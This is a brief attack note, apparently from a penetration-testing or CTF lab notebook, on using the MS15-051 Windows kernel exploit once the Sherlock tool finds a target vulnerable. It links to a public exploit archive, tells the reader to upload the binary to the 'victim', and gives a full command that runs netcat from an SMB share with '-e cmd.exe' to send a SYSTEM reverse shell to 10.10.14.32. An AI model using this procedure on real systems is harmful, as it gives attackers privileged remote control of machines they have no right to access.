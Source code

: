 # MS15-051 Client Copy Image
Source: https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip

So you ran Sherlock and found that the machine appears to be vulnerable. Hurray!

1) Make sure to download the right architecture (32/64bit) for exploit.
2) Upload file to victim and run command as System
3) Get reverse shell using smb file share 
```cmd
MS15-051x64.exe "\\10.10.14.32\a\nc64.exe 10.10.14.32 7778 -e cmd.exe" 
```
